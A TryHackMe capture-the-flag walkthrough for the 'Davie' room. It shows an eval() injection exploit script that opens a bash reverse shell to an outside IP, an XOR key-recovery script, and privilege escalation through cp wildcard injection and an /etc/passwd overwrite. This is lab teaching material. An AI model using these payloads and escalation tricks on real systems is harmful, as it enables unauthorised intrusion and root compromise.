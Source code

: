 ```yaml
---
title: Davie - TryHackMe Walkthrough
date: 2024-01-25 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, python, eval, xor, privilege-escalation, tryhackme]
image:
  path: https://github.com/user-attachments/assets/22114f94-ac64-4aa0-b5a5-207e6e52dfd7
  alt: Davie Room Banner
---
```


# Davie - TryHackMe Walkthrough

*"Appearances can be deceiving, and in cybersecurity, what you see isn't always what you get."*

## Introduction

In this TryHackMe challenge, we're presented with a seemingly simple mathematical equation solver website. However, as we'll discover, there's more than meets the eye. The ability to download the source code provides us with our first clue into finding the vulnerability that will grant us initial access.

![Davie Homepage](https://github.com/user-attachments/assets/f4d7db0c-fe6e-4f2f-b293-6992889f0818)

## Initial Reconnaissance

Let's start by scanning the target machine to understand what services are running:

```bash
nmap -sC -sV -A -oN nmap_result MACHINE_IP
```

The scan reveals two open ports:
- Port 22: Running OpenSSH 8.2p1
- Port 5000: A Python web application using Werkzeug

## Gaining Initial Access

The web application's source code reveals an interesting vulnerability in the `app.py` file. The use of the `eval()` function with user input creates a dangerous situation. Here's the vulnerable code:

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

We can exploit this by injecting Python code through the `eval()` function. Here's our exploit script:

```python
import requests

url = "http://MACHINE_IP:5000"
rev_shell = "__import__('os').system(\"bash+-c+'bash+-i+>%26+/dev/tcp/10.18.11.118/9001+0>%261'\")#"
payload = f"xa={rev_shell}&xb=3"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

response = requests.post(url, data=payload, headers=headers)
```

## Lateral Movement

After gaining access as user 'bruce', we discover:
- The first flag
- A note from Gordon about an encoded password
- Sudo privileges to run `/usr/bin/python3 /opt/encrypt.py` as user 'gordon'

The encryption script uses XOR with base64 encoding. We can exploit this using a known-plaintext attack. Here's our decryption script:

```python
import base64
import sys

def cut_until_repeat(s):
    for i in range(1, len(s) // 2 + 1):
        if s[:i] * (len(s) // i) + s[:len(s) % i] == s:
            return s[:i]
    return s

def decode_string(base64_string):
    base64_bytes = base64_string.encode('ascii')
    decoded_string = base64.b64decode(base64_bytes)
    return decoded_string.decode('ascii')

def xor(password, key):
    xor = ""
    for i in range(0, min(len(password), len(key))):
        xor += chr(ord(password[i]) ^ ord(key[i%len(key)]))
    return xor

# Usage: python3 xor.py <password> <base64_string> <encrypted_secret>
```

## Privilege Escalation

As user 'gordon', we discover:
- The second flag
- A backup system that copies files from `/home/gordon/reports/` to `/home/gordon/backups/`

The backup script uses a wildcard (`*`) which we can exploit:

```bash
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

We can exploit this by:
1. Copying `/bin/bash` to the reports directory
2. Setting the SUID bit
3. Creating a file named `--preserve=mode`

After the backup script runs, we can execute the copied bash binary to get a root shell:

```bash
./bash -p
```

## Alternative Privilege Escalation Method

Another approach involves manipulating the `/etc/passwd` file:
1. Create a modified copy of `/etc/passwd` in the reports directory
2. Change gordon's UID and GID to 0
3. Create a symbolic link from backups to `/etc`
4. Wait for the backup script to overwrite the real `/etc/passwd`

## Conclusion

This machine demonstrates several important security concepts:
- The dangers of using `eval()` with user input
- Weak encryption implementations
- Wildcard injection vulnerabilities
- File permission manipulation

Remember: in cybersecurity, the most dangerous vulnerabilities are often hidden in plain sight, waiting to be discovered by those who know where to look. 